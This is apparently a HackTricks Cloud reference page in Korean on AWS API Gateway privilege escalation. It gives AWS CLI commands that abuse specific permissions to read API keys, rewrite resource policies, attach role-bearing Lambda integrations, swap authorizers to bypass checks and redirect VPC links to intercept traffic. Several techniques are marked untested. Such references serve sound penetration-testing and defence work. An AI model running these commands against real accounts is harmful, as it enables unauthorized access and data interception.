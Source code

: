 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

이 권한을 사용하면 구성된 API의 API 키를 생성할 수 있습니다(지역별).
```bash
aws --region <region> apigateway create-api-key
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:GET`

이 권한으로 구성된 API의 생성된 API 키를 가져올 수 있습니다(지역별).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만 민감한 정보에 접근할 수 있습니다.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

이 권한을 사용하면 API의 리소스 정책을 수정하여 자신에게 호출할 수 있는 권한을 부여하고 API 게이트웨이가 가질 수 있는 잠재적 접근을 악용할 수 있습니다(예: 취약한 람다 호출). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**잠재적 영향:** 일반적으로 이 기술로 직접적으로 권한 상승을 할 수는 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment`, 및 `iam:PassRole` 권한을 가진 공격자는 **IAM 역할이 연결된 Lambda 함수로 기존 API Gateway REST API에 새로운 통합을 추가할 수 있습니다**. 그런 다음 공격자는 **Lambda 함수를 트리거하여 임의의 코드를 실행하고 IAM 역할과 관련된 리소스에 접근할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: Lambda 함수의 IAM 역할과 관련된 리소스에 대한 접근.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateAuthorizer` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 인증자를 수정**하여 보안 검사를 우회하거나 API 요청이 이루어질 때 임의의 코드를 실행할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: 보안 검사를 우회하고, API 리소스에 대한 무단 접근.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateVpcLink` 권한을 가진 공격자는 **기존 VPC 링크를 수정하여 다른 네트워크 로드 밸런서를 가리키게 할 수 있으며, 이는 개인 API 트래픽을 무단 또는 악의적인 리소스로 리디렉션할 수 있습니다**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**잠재적 영향**: 비공식 API 리소스에 대한 무단 접근, API 트래픽의 가로채기 또는 중단.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
